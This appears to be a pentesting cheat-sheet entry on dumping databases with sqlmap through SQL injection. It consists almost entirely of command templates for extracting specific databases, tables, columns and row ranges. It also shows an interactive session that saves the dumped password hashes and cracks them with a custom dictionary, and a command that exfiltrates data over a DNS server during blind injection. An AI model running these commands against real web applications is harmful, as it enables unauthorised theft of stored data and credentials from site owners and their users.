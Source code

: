 # Dumping Database

Search Tag(s): #sql-injection #sqlmap #webapp

`$ sqlmap -u "<URL>" -D <database_name -T <table_name> -C <column_name> --start=<row_start_range> --dump`

`$ sqlmap -u "<URL>" -D <database_name -T <table_name> -C <column_name> --stop=<row_end_range> --dump`

`$ sqlmap -u "<URL>" -D <database_name -T <table_name> -C <column_name> --start=<row_start_range> --stop=<row_end_range> --dump`

`$ sqlmap -u "<URL>" -D <database_name -T <table_name> -C <column_name> --where "<column> = '<value>'" --dump`

`$ sqlmap -u "<URL>" -D <database_name> -T <table_name> -C <column_name> --where "<column> LIKE '%upload%'" --dump`

```
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q]
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /absolute/path/to/passwords.lst
[14:21:21] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] y
```

- It's only used for blind SQL injection techniques.

`$ sudo sqlmap -u "<URL>" --dns-domain=<dns_server_IP> -D <database_name> --dump`